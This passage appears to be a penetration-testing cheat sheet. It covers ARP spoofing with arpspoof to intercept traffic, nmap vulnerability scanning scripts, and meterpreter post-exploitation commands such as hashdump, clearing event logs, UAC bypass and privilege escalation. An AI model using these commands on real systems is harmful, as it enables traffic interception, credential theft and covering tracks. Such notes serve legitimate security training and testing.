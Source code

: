 Then setup arpspoof on the designated interface between a target and client machine on the network to send unsolicited arp replies (e.g. SSH server and domain workstation):  
`arpspoof -i {interface} -t {target} -r {client}`

Use wireshark on the same interface to capture traffic and then follow the TCP stream to extract details

---
---

## NMAP vulnerability scanning 
### nmap vuln 
Can return associated CVE and information about the potential exploit  
`nmap -Pn --script vuln -sV {target}`

### nmap-vulners
A CVE search nmap script  
Git clone into nmap scripts folder:
```
cd /usr/share/nmap/scripts/
git clone https://github.com/vulnersCom/nmap-vulners.git
```  
Then execute: `nmap --script nmap-vulners -sV {target}`

---
---

## meterpreter
Within a `meterpreter >` session, available commands can be found using `help` or `?`  

Important to know: 
- `sysinfo` = get victim machine info
- `ps` = get running processes on victim
- `getpid` = get attached process id
- `pwd` = print working directory
- `ls` = list current directory files
- `cat {filename}` = print contents of text file
- `run` = executes meterpreter scripts or Post modules
- `upload` = upload file to victim
- `download` = download file from victim
- `arp` = displays arp cache on victim **(useful for pivoting)**
- `ifconfig` = get victim network interfaces **(useful for pivoting)**
- `clearenv` = clear event log
- `hashdump` = dump SAM database 
- `getsystem` = SYSTEM elevation attempt ***(unlikely because of UAC)***
- `run post/windows/gather/win_privs` = see if UAC is enabled on victim, if so follow up with `bypassuac`
- `use exploit/windows/local/bypassuac` = may allow UAC bypass to session ID | if successful, then can invoke `getsystem`
- `migrate {PID}` = migrates session to new process
